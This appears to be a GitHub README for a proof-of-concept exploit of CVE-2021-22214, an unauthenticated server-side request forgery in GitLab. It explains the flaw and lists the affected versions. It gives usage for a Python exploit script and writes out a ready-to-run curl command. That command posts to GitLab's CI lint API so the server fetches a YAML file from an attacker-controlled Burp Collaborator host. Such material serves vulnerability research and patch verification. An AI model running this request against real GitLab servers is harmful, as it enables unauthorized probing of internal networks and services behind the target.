 # CVE-2021-22214
POC for CVE-2021-22214: Gitlab SSRF

<img src="./ssrf.png" />

## Description
The remote GitLab install contains a Server-side request forgery (SSRF) vulnerability as a result of the internal network for webhooks being enabled. A remote, unauthenticated attacker can exploit a registration-limited GitLab instance causing it to make HTTP requests to an arbitrary domain of the attacker's choosing.

## usage
* ## python code
  ```
  usage:   python3 GitLab_SSRF.py <target> <burp_collaborator_url>
  ```
* ### Curl command
```
curl -s –show-error -H 'Content-Type: application/json' https://TargetIP/api/v4/ci/lint –data '{ "include_merged_yaml": true, "content": "include:\n remote: http://Burp-Collaborator/test.yml"}' 
```




### Affect
* Gitlab >=10.5, <13.10.5
* Gitlab >=13.11, <13.11.5
* Gitlab >=13.12, <13.12.2


### Reference
* [GitLab SSRF (CVE-2021-22214)](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-22214)
* [tenable.com](https://www.tenable.com/plugins/nessus/152483)

